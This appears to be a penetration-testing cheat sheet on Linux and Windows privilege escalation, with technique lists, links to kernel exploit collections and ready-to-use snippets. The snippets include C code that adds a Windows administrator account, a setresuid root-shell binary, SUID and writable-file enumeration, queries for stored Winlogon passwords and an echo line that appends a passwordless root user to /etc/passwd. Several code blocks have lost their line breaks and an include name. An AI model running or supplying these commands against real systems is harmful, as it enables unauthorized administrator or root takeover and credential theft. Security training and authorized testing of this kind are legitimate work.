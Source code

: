 # **Priv Escalation**
Privilege escalation means gaining higher levels of access or permissions within a system or network beyond what was initially granted. It involves exploiting vulnerabilities or misconfigurations to elevate privileges from a lower-privileged user or account to gain control over more sensitive resources or execute commands with increased authority.

## **Linux Privilege Escalation**

* sudo -l
* Kernel Exploits
* OS Exploits
* Password reuse (mysql, .bash\_history, 000-default.conf...)
* Known binaries with suid flag and interactive (nmap)
* Custom binaries with suid flag either using other binaries or with command execution
* Writable files owned by root that get executed (cronjobs)
* MySQL as root
* Vulnerable services (chkrootkit, logrotate)
* Writable /etc/passwd
* Readable .bash\_history
* SSH private key
* Listening ports on localhost
* /etc/fstab
* /etc/exports
* /var/mail
* Process as other user (root) executing something you have permissions to modify
* SSH public key + Predictable PRNG
* apt update hooking (Pre-Invoke)
* Capabilities

## **Windows Privilege Escalation**

* Kernel Exploits
* OS Exploits
* Pass The Hash
* Password reuse
* DLL hijacking (Path)
* Vulnerable services
* Writable services binaries path
* Unquoted services
* Listening ports on localhost
* Registry keys

### **Kernel Exploits**

Linux: [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)​

Windows: [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)​

**Windows Add User**

```
#include  /* system, NULL, EXIT_FAILURE */​int main (){  int i;  i=system ("net user   /add && net localgroup administrators  /add");  return 0;}
```

**SUID Change**

```
SUID​Set owner user ID.​int main(void){  setresuid(0, 0, 0);  system("/bin/bash");}​
```

**Privilege Escalation:**
```
#Find Binaries that will execute as the ownerfind / -perm -u=s -type f 2>/dev/null
​#Find binaries that will execute as the groupfind / -perm -g=s -type f 2>/dev/null
​#Find sticky-bit binariesfind / -perm -1000 -type d 2>/dev/null​find / -perm -4000 2>/dev/null​writable by everyonefind / -writable -type f 2>/dev/null​World writeable directoriesfind / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root​World writeable filesfind / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null​Writeable config filesfind /etc/ -writable -type f 2>/dev/null​find / -user root -perm -4000 -exec ls -ld {} \; 2> /dev/null​
```

**Window Exploit Suggester**

```
python2 windows-exploit-suggester.py --database 2017-10-10-mssb.xls --systeminfo ../systeminfo.txt --quietpython windows-exploit-suggester.py –systeminfo systeminfo.txt –database 2018-11-25-mssb.xls
```

**Windows Priv Escalation**

```
AlwaysInstallElevatedCheck if the following registry settings are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"​
```

**Basic Linux Enumeration**

```
Distribution type & kernel versioncat /etc/*release*uname -arpm -q kerneldmesg | grep -i linux​Default writeable directory / folder/tmp/dev/shm​Search for passwordsSearch for password within config.phpgrep -R 'password' config.php​Find possible other writeable directory / folderfind / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;​Service(s) running as root userps aux | grep rootps -ef | grep root​Installed applicationsls -lah /usr/bin/ls -lah /sbin/dpkg -lrpm -qals -lah /var/cache/apt/archivesOls -lah /var/cache/yum/​Scheduled jobscrontab -lls -la /etc/cron*ls -lah /var/spool/cronls -la /etc/ | grep croncat /etc/crontabcat /etc/anacrontab​Find pattern in file:grep -rnw '/etc/passwd' -e 'root'​Sticky bit, SGID, SUID, GUIDSticky bitfind / -perm -1000 -type d 2>/dev/null​SGID (chmod 2000)find / -perm -g=s -type f 2>/dev/null​SUID (chmod 4000)find / -perm -u=s -type f 2>/dev/nullfind /* -user root -perm -4000 -print 2>/dev/null​SUID or GUIDfind / -perm -g=s -o -perm -u=s -type f 2>/dev/null​Add user to /etc/passwd and root groupecho hodor::0:0:root:/root:/bin/bash >> /etc/passwd​
```

## **Reference** ##

- ​[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)​